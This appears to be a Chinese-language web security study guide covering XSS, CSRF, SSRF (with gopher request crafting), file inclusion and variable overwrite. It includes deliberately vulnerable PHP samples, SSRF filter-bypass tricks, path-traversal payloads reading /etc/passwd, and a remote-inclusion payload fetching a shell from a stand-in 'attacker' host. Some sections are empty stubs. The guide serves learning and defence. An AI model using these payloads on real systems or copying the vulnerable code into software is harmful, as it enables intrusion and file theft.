

### XSS简介

>  跨站脚本（Cross-Site Script，XSS）是一种经常出现在WEB应用程序中的计算机安全漏洞，是由于WEB应用程序对用户的输入过滤不足而产生的。攻击者利用网站漏洞把恶意脚本代码注入到网页中，当其他用户浏览这些网页是，就会执行其中的恶意代码，对受害用户可能采取cookie资料窃取、会话劫持、钓鱼欺骗等各种攻击。

### 反射型XSS

反射型跨站脚本（Reflected Cross-Site Scripting）是最常见，也是使用最广的一种，可将恶意脚本附加到 URL 地址的参数中。

反射型 XSS 的利用一般是攻击者通过特定手法（如电子邮件），诱使用户去访问一个包含恶意代码的  URL，当受害者点击这些专门设计的链接的时候，恶意代码会直接在受害者主机上的浏览器执行。此类 XSS  通常出现在网站的搜索栏、用户登录口等地方，常用来窃取客户端 Cookies 或进行钓鱼欺骗。

服务器端代码：

~~~php
<?php 
// Is there any input? 
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) { 
    // Feedback for end user 
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>'; 
} 
?>
~~~

可以看到，代码直接引用了 `name` 参数，并没有做任何的过滤和检查，存在明显的 XSS 漏洞。

### 持久型XSS

持久型跨站脚本（Persistent Cross-Site Scripting）也等同于存储型跨站脚本（Stored Cross-Site Scripting）。

此类 XSS 不需要用户单击特定 URL  就能执行跨站脚本，攻击者事先将恶意代码上传或储存到漏洞服务器中，只要受害者浏览包含此恶意代码的页面就会执行恶意代码。持久型 XSS  一般出现在网站留言、评论、博客日志等交互处，恶意脚本存储到客户端或者服务端的数据库中。

服务器端代码：

~~~php
<?php
  if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );
    // Sanitize message input
    $message = stripslashes( $message );
    $message = mysql_real_escape_string( $message );
    // Sanitize name input
    $name = mysql_real_escape_string( $name );
    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
    //mysql_close(); }
?>
~~~

代码只对一些空白符、特殊符号、反斜杠进行了删除或转义，没有做 XSS 的过滤和检查，且存储在数据库中，明显存在存储型 XSS 漏洞。

### DOM XSS

传统的XSS漏洞一般出现在服务器端代码中，而DOM-Based XSS是基于DOM文档对象模型的一种漏洞，所以，受客户端浏览器的脚本代码所影响。


httponly


## CSRF

### CSRF简介

> CSRF，全名Cross Site Request Forgery，跨站请求伪造。很容易将它与XSS混淆，对于CSRF其两个关键点是**跨站点的请求**与**请求的伪造**，由于目标站**无token与referer防御**，导致用户的敏感操作的每一个参数都可以被攻击者获知，攻击者即可以伪造一个完全一样的请求以用户的身份达到恶意目的。

### CSRF类型

+ 按请求类型：`GET型`、`POST型`
+ 按攻击方式：`HTML CSRF`、`JSON HiJacking`、`Flash CSRF`等

#### HTML CSRF

利用HTML元素发出的CSRF请求，这是最常见的CSRF攻击。

HTML中可以设置`src/href`等链接地址的标签都可以发起一个GET请求，如：

~~~html
<link href="">


<meta http-equiv="refresh" content="0; url=">
<iframe src="">
<frame src="">
<script src=""></script>
<bgsound src=""></bgsound>
<embed src=""></bgsound>
<video src=""></video>
<audio src=""></audio>
<a href=""></a>
<table background=""></table>
......
~~~

还有 CSS 样式中的：

~~~css
@import ""
background:url("")
......
~~~

也可使用表单来对 POST 型的请求进行伪造:

~~~html
<form action="http://www.a.com/register" id="register" method="post">
  <input type=text name="username" value="" />
  <input type=password name="password" value="" />
</form>
<script>
  var f = document.getElementById("register");
  f.inputs[0].value = "test";
  f.inputs[1].value = "passwd";
  f.submit();
</script>
~~~

#### Flash CSRF

Flash 也有各种方式可以发起网络请求，包括POST:

~~~
import flash.net.URLRequest;
import flash.system.Security;
var url = new URLRequest("http://target/page");
var param = new URLVariables();
param = "test=123";
url.method = "POST";
url.data = param;
sendToURL(url);
stop();
~~~

Flash 中还可以使用 `getURL`、`loadVars` 等方式发起请求。

~~~
req = new LoadVars();
req.addRequestHeader("foo", "bar");
req.send("http://target/page?v1=123&v2=222", "_blank", "GET");
~~~

### CSRF的防御

#### 验证码

验证码强制用户必须与应用进行交互，才能完成最终请求。

#### Referer Check（同源策略）

检查请求是否来自合法的源，但服务器并非什么时候都能取得Referer。

#### Token（最有效）

 CSRF能够攻击成功的本质原因是重要操作的所有参数都可以被攻击者猜测得到。

保持原参数不变，新增加一个参数Token，值是随机的，在实际应用中，Token可以放在用户的Session中，或者浏览器的Cookie中。

Token一定要足够随机。此外，Token的目的不是为了防止重复提交，所以为了使用方便，可以允许在一个用户的有效生命周期内，在Token消耗掉之前都使用同一个Token，但如果用户已经提交了表单，则这个Token已经消耗掉，应该重新生成Token。

Token还应注意其保密性，如果Token出现在url中，则可能会通过Referer泄露，应尽量把Token放在表单中，把敏感操作由GET改为POST，以表单或者AJAX的形式提交，避免Token泄露。


## SSRF

SSRF（Server-Side Request Forgery：服务端请求伪造）是一种由攻击者构造形成的由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。

漏洞形成的原因大多是因为服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤和限制。

攻击者可以利用SSRF实现的攻击主要有5种：

1. 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息
2. 攻击运行在内网或者本地的应用程序（比如溢出）
3. 对内网WEB应用进行指纹识别，通过访问默认文件实现
4. 攻击内外网的web应用，主要是使用GET参数就可以实现的攻击（比如Struts2、sqli等)
5. 利用`file`协议读取本地文件等

### SSRF漏洞出现的场景

+ 能够对外发起网络请求的地方，就有可能存在SSRF漏洞
+ 从远程服务器请求资源（Upload from URL，Import & Export RSS Feed）
+ 数据库内置功能（Oracle、MongoDB、MSSQL、Postgres、CouchDB）
+ Webmail收取其他邮箱邮件（POP3、IMAP、SMTP）
+ 文件处理、编码处理、属性信息处理ffmpeg、ImageMagic、DOCX、PDF、XML）

### 常用的后端实现

**1. file_get_contents**

~~~php
<?php
if (isset($_POST['url'])) { 
    $content = file_get_contents($_POST['url']); 
    $filename ='./images/'.rand().';img1.jpg'; 
    file_put_contents($filename, $content); 
    echo $_POST['url']; 
    $img = ""; 
}
echo $img;
?>
~~~

这段代码使用 `file_get_contents` 函数从用户指定的 URL 获取图片。然后把它用一个随机文件名保存在硬盘上，并展示给用户。

**2. fsockopen()**

~~~php
<?php 
function GetFile($host,$port,$link) { 
    $fp = fsockopen($host, intval($port), $errno, $errstr, 30); 
    if (!$fp) { 
        echo "$errstr (error number $errno) \n"; 
    } else { 
        $out = "GET $link HTTP/1.1\r\n"; 
        $out .= "Host: $host\r\n"; 
        $out .= "Connection: Close\r\n\r\n"; 
        $out .= "\r\n"; 
        fwrite($fp, $out); 
        $contents=''; 
        while (!feof($fp)) { 
            $contents.= fgets($fp, 1024); 
        } 
        fclose($fp); 
        return $contents; 
    } 
}
?>
~~~

这段代码使用 `fsockopen` 函数实现获取用户制定 URL 的数据（文件或者 HTML）。这个函数会使用 socket 跟服务器建立 TCP 连接，传输原始数据。

**3. curl_exec()**

~~~php
<?php 
if (isset($_POST['url'])) {
    $link = $_POST['url'];
    $curlobj = curl_init();
    curl_setopt($curlobj, CURLOPT_POST, 0);
    curl_setopt($curlobj,CURLOPT_URL,$link);
    curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1);
    $result=curl_exec($curlobj);
    curl_close($curlobj);

    $filename = './curled/'.rand().'.txt';
    file_put_contents($filename, $result); 
    echo $result;
}
?>
~~~

使用 `curl` 获取数据。

### 阻碍SSRF漏洞利用的场景

+ 服务器开启OpenSSL无法进行交互利用
+ 服务端需要鉴权（Cookies & User:Pass）不能完美利用
+ 限制请求的端口为http常用的端口，如80、443、8080等
+ 禁用不需要的协议。仅仅允许http和https请求。可以防止类似于`file:///、gopher://、ftp://`等引起的问题。
+ 同一错误信息，避免用户可以错误信息来判断远端服务器的端口状态

### 利用SSRF进行端口扫描

根据服务器的返回信息进行判断，大部分应用不会判别端口，可通过返回的 banner 信息判断端口状态。

后端实现

~~~php
<?php 
if (isset($_POST['url'])) {
    $link = $_POST['url'];
    $filename = './curled/'.rand().'txt';
    $curlobj = curl_init($link);
    $fp = fopen($filename,"w");
    curl_setopt($curlobj, CURLOPT_FILE, $fp);
    curl_setopt($curlobj, CURLOPT_HEADER, 0);
    curl_exec($curlobj);
    curl_close($curlobj);
    fclose($fp);
    $fp = fopen($filename,"r");
    $result = fread($fp, filesize($filename)); 
    fclose($fp);
    echo $result;
}
?>
~~~

构造一个前端页面

~~~html
<html>
<body>
  <form name="px" method="post" action="http://127.0.0.1/ss.php">
    <input type="text" name="url" value="">
    <input type="submit" name="commit" value="submit">
  </form>
  <script></script>
</body>
</html>
~~~

请求非 HTTP 的端口可以返回 banner 信息。

或可利用 302 跳转绕过 HTTP 协议的限制。

辅助脚本

~~~php
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$scheme = $_GET['s'];
$data = $_GET['data'];
header("Location: $scheme://$ip:$port/$data");
?>
~~~

### 协议利用

- Dict 协议

  ```
  dict://fuzz.wuyun.org:8080/helo:dict
  ```

- Gopher 协议

  ```
  gopher://fuzz.wuyun.org:8080/gopher
  ```

- File 协议

  ```
  file:///etc/passwd
  ```

### 绕过姿势 

1. 更改 IP 地址写法 例如`192.168.0.1`

   - 8 进制格式：`0300.0250.0.1`
   - 16 进制格式：`0xC0.0xA8.0.1`
   - 10 进制整数格式：`3232235521`
   - 16 进制整数格式：`0xC0A80001`
   - 还有一种特殊的省略模式，例如`10.0.0.1`这个 IP 可以写成`10.1`

2. 利用 URL 解析问题 在某些情况下，后端程序可能会对访问的 URL 进行解析，对解析出来的 host 地址进行过滤。这时候可能会出现对 URL 参数解析不当，导致可以绕过过滤。 例如：

   - `http://www.baidu.com@192.168.0.1/`与`http://192.168.0.1`请求的都是`192.168.0.1`的内容

   - 可以指向任意 ip 的域名`xip.io`：`http://127.0.0.1.xip.io/`==>`http://127.0.0.1/`

   - 短地址`http://dwz.cn/11SMa`==>`http://127.0.0.1`

   - 利用句号`。`：`127。0。0。1`==>`127.0.0.1`

   - 利用 Enclosed alphanumerics

     ```
     ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ  >>>  example.com
     List:
     ① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
     ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
     ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
     ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
     Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
     ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
     ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ 
     ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
     ```

### 危害

+ 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息
+ 攻击运行在内网或者本地的应用程序（比如溢出）
+ 对内网WEB应用进行指纹识别，通过访问默认文件实现
+ 攻击内外网的web应用，主要是使用GET参数就可以实现的攻击（比如Struts2、sqli等)
+ 利用`file`协议读取本地文件等

### Gopher协议在SSRF漏洞中的研究

> 1. 什么是Gopher协议？
>
>   
>    gopher协议支持GET&POST请求，常用于攻击内网ftp、redis、telnet、smtp等服务，还可以利用`gopher`协议访问`redis`反弹`shell`
>    


**什么是**gopher协议？

**定义**：Gopher是Internet上一个非常有名的信息查找系统，它将Internet上的文件组织成某种索引，很方便的将用户从Internet的一处带到另一处。在www出现之前，Gopher是Internet上主要的信息检索工具，Gopher站点也是最主要的站点，使用tcp70端口。但在WWW出现后，Gopher失去了昔日的辉煌。现在它基本过时，人们很少再使用它。


**限制**：gopher协议在各个编程语言中的使用限制



> --wite-curlwrappers：运用curl工具打开url流
> curl使用curl --version查看版本以及支持的协议

**Gopher协议格式**：

~~~http
URL:gopher://<host>:<port>/<gopher-path>_后接TCP数据流
~~~

+ Gopher的默认端口是70
+ 如果发起post请求，回车换行需要使用%0d%0a，如果多个参数，参数之间的&也需要进行URL编码

**Gopher发送请求HTTP GET请求：**

使用Gopher协议发送一个请求，环境为：nc起一个监听，curl发送gopher请求

nc启动监听，监听2333端口：nc -lp 2333

使用curl发送http请求，命令为

```php
margine:~ margin$ curl gopher://192.168.0.119:2333/abcd
```

此时nc收到的消息为：

```bash
margine:~ margin$ nc -lp 2333
bcd
```

可以发现url中的a没有被nc接受到，如果命令变为

```text
margine:~ margin$ curl gopher://192.168.0.119:2333/_abcd
```

此时nc收到的消息为：

```text
margine:~ margin$ nc -lp 2333
abcd
```

所以需要在使用gopher协议时在url后加入一个字符（该字符可随意写）

那么如何发送HTTP的请求呢？例如GET请求。此时我们联想到，直接发送一个原始的HTTP包不就可以吗？在gopher协议中发送HTTP的数据，需要以下三步：

> 1、构造HTTP数据包
> 2、URL编码、替换回车换行为%0d%0a
> 3、发送gopher协议

我准备了一个PHP的代码，如下：

```php
<?php
    echo "Hello ".$_GET["name"]."\n"
?>
```

一个GET型的HTTP包，如下：

```http
GET /ssrf/base/get.php?name=Margin HTTP/1.1
Host: 192.168.0.109
```

URL编码后为：

```http
curl gopher://192.168.0.109:80/_GET%20/ssrf/base/get.php%3fname=Margin%20HTTP/1.1%0d%0AHost:%20192.168.0.109%0d%0A
```

在转换为URL编码时候有这么几个坑

> 1、问号（？）需要转码为URL编码，也就是%3f
> 2、回车换行要变为%0d%0a,但如果直接用工具转，可能只会有%0a
> 3、在HTTP包的最后要加%0d%0a，代表消息结束（具体可研究HTTP包结束）

**Gopher发送请求HTTP POST请求：**

发送POST请求前，先看下POST数据包的格式

```text
POST /ssrf/base/post.php HTTP/1.1
host:192.168.0.109

name=Margin
```

那我们将上面的POST数据包进行URL编码并改为gopher协议

```http
curl gopher://192.168.0.109:80/_POST%20/ssrf/base/post.php%20HTTP/1.1%0d%0AHost:192.168.0.1090d%0A%0d%0Aname=Margin%0d%0A
```

post.php的代码为

```text
<?php
    echo "Hello ".$_POST["name"]."\n"
?>
```

现返回的包爆了501的错误，我的思路是这样的：查看Apache的正常日志和错误日志、查找POST请求中所需的字段。下面分别是正常日志和错误日志的截图：

```http
192.168.0.119 - - [07/Mar/2020:15:19:49 +0800] "POST /ssrf/base/post.php HTTP/1.1" 200 7
192.168.0.119 - - [07/Mar/2020:15:19:49 +0800] "name=Margin" 501 213
[Sat Mar 07 15:38:50 2020] [error] [client 192.168.0.119] Invalid method in request name=Margin
```

这里有个疑问：为什么发起了2次请求？为什么会把参数name=Margin当作一个请求？这个地方我调试了很久，发现问题出现在POST请求头中，我之前发POST请求都是直接用脚本，但从来没考虑过哪些参数是POST请求必须的，经过排查，发现有4个参数为必要参数（四个参数的含义不再赘述）：

```text
POST /ssrf/base/post.php HTTP/1.1
host:192.168.0.109
Content-Type:application/x-www-form-urlencoded
Content-Length:11

name=Margin
```

现在我们将它进行URL编码：

```text
curl gopher://192.168.0.109:80/_POST%20/ssrf/base/post.php%20HTTP/1.1%0d%0AHost:192.168.0.109%0d%0AContent-Type:application/x-www-form-urlencoded%0d%0AContent-Length:11%0d%0A%0d%0Aname=Margin%0d%0A

```

发现请求正常，OK，那我们现在就介绍完了gopher协议的GET和POST请求。


## RCE



**漏洞形成的条件**：

1. 可控变量
2. 漏洞函数


文件包含：伪协议


## 越权

越权漏洞是 WEB 应用程序中一种常见的安全漏洞。它的威胁在于一个账户即可控制全站用户数据。当然这些数据仅限于存在漏洞功能对应的数据。越权漏洞的成因主要是因为开发人员在对数据进行增、删、改、查询时对客户端请求的数据过分相信而遗漏了权限的判定。所以测试越权就是和开发人员拼细心的过程。

## 反序列化之PHP&JAVA全解


原理：


~~~
#序列化与反序列化
序列化（Serializatioin）：将对象的状态信息转换为可以存储或者传输的形式的过程。在序列化期间，对象将其当前状态写入到临时或者持久型存储区。
反序列化：从存储区读取改数据，并将其还原为对象的过程，成为反序列化。
~~~


 

## PHP代码审计

### 文件包含

常见的导致文件包含的函数有：

+ PHP：`include()` 、`include_once()` 、`require()` 、`require_once()` 、`fopen()` 、`readfile()`等
+ JSP Servlet：`ava.io.File()` 、`java.io.FileReader()`等
+ ASP：`includefile` 、`includevirtual`等

当php包含一个文件时，会将该文件当做PHP代码执行，而不会在意文件是什么类型。

#### 本地文件包含

本地文件包含，Local File Inclusion ,LFI.

~~~php
<?php
$file = $_GET['file'];
if (file_exists('/home/wwwrun/'.$file.'.php')) {
  include '/home/wwwrun/'.$file.'.php';
}
?>
~~~

上述代码存在本地文件包含，可用%00截断的方式读取/etc/paseds中的文件内容

+ %00截断

  ~~~
  ?file=../../../../../../../../../etc/passed%00
  ~~~

  需要 `magic_quotes_gpc=off`,php版本小于5.3.4有效。

+ 路径长度截断

  ~~~
  ?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.
  ~~~
  
  Linux 需要文件名长于 4096，Windows 需要长于 256。
  
+ 点号截断

  ~~~
  ?file=../../../../../../../../../boot.ini/………[…]…………
  ~~~

  只适用Windows，点号需要长于256。

#### 远程文件包含

远程文件包含，Remote File Inclusion,RFI

~~~php
<?php
if ($route == "share") {
  require_once $basePath . "/action/m_share.php";
} elseif ($route == "sharelink") {
  require_once $basePath . "/action/m_sharelink.php";
}
~~~


构造变量basePath的值

~~~php
/?basePath=http://attacker/phpshell.txt?
~~~

最终的代码执行了

~~~php
require_once "http://attacker/phpshell.txt?/action/m_share.php";
~~~

问号后的部分被解释为URL的querystring，这也是一种截断

+ 普通远程文件包含

  ~~~php
  ?file=[http|https|ftp]://example.com/shell.txt
  ~~~

  需要`allow_url_fopen=On`并且 `allow_url_include=On`

+ 利用PHP流input

  ~~~php
  ?file=php://input
  ~~~

  需要 `allow_url_include=On`

+ 利用PHP流filter

  ~~~php
  ?file=php://filter/convert.base64-encode/resource=index.php
  ~~~

  需要 `allow_url_include=On`

+ 利用Data URIs

  ~~~php
  ?file=data://text/plain;base64;SSBsb3ZlIFBIUAo=
  ~~~

  需要 `allow_url_include=On` 。

+ 利用XSS执行

  ~~~php
  ?file=http://127.0.0.1/path/xss.php?xss=phpcode
  ~~~

  需要 `allow_url_fopen=On allow_url_include=On`并且防火墙或者白名单不允许访问外网时，先在同站点找一个XSS漏洞，包含这个页面，就可以注入恶意代码了。

### 变量覆盖

#### 全局变量覆盖

变量如果没有被初始化，且能够被用户所控制，那么很可能会导致安全问题。

~~~php
register_globals=ON
~~~

示例

~~~php
<?php
echo "Register_globals: " . (int)ini_get("register_globals") . "<br/>";

if ($auth) {
  echo "private!";
}
?>
~~~

当 `register_globals=ON` 时，提交 `test.php?auth=1`，`auth` 变量将自动得到赋值。


## XXE

## IDS

IDS是英文Intrusion Detection Systems的缩写，中文意思是[入侵检测系统]。从专业上讲就是依照一定的安全策略，通过软、硬件，对网络、系统的运行情况进行监视，尽可能发现各种攻击企图、攻击行为或者攻击结果，以保证网络系统资源的机密性、完整性和可用性。做一个形象的比喻：假如防火墙是一幢大楼的门锁，那么IDS就是这幢大楼里的监视系统。一旦小偷爬窗进入大楼，或内部人员有越界行为，只有实时监视系统才能发现情况并发出警告。

## IPS

入侵防御系统（IPS：Intrusion Prevention System）是电脑网络安全设施，是对防病毒软件（Antivirus Programs）和防火墙（Packet Filter，Application Gateway）的补充。入侵防御系统是一部能够监视网络或者网络设备的网络资料传输行为的计算机网络安全设备，能够即时的中断、调整或隔离一些不正常或是具有伤害性的网络资料传输行为。